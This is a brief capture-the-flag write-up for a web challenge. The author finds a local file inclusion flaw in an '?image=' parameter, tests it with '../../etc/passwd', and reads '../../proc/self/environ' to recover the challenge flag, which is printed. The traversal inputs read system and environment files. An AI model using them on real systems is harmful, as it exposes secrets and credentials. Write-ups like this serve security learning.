






# thought to solve

# thinking path

first we come up with this


i go through the page, but don't nothing interesting.

first time, i think this challenges has file upload vulnerability, but after a long time i didn't find anything useful. When i see some hint
from writeup, it's LFI and you can test that by using _../../etc/passwd_ in the parameter _?image=_ . Not subjective when do ctf.


Oke so this web has LFI, so next steps it's try to get the flag. First this challenge has upper _SELF_. And when i find payloads about LFI i see this. This is link https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt <br>
 <br>
and docker-compose.yaml show me that maybe the flag is on environ.

so we use ../../proc/self/environ in _?image=_ which stores all environment variables and we see this string

And i think we need base64 decode to read the flag, and after decode we saw this:

```
 PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin�HOSTNAME=f295b5775b83�FLAG=n00bz{Th3_3nv1r0nm3nt_det3rmine5_4h3_S3lF_95dc07494db8}�LANG=C.UTF-8�GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D�PYTHON_VERSION=3.10.14�PYTHON_PIP_VERSION=23.0.1�PYTHON_SETUPTOOLS_VERSION=65.5.1�PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/66d8a0f637083e2c3ddffc0cb1e65ce126afb856/public/get-pip.py�PYTHON_GET_PIP_SHA256=6fb7b781206356f45ad79efbb19322caa6c2a5ad39092d0d44d0fec94117e118�HOME=/home/chall�
```

flag=n00bz{Th3_3nv1r0nm3nt_det3rmine5_4h3_S3lF_95dc07494db8}
